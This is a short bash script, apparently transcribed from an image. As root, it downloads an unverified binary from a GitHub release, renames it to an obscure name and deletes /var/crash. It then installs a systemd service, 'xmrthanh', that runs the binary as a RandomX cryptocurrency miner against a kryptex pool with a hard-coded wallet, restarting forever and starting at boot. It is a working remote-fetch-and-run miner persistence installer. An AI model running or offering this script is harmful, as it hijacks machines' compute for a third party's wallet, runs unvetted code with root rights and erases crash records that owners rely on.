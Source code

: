 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o sal.kryptex.network:7777 -u SaLvsAVm78sYam4NrkX4MWHRrUiwC1Fcz4sUAQRY1Jut1ijhonGGcneKLbww6GUvid8N2WHyuLxYfjav1p6xCDRGSVfVEdGPETk -p 1svts29 -a rx/0 -k -t 16
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
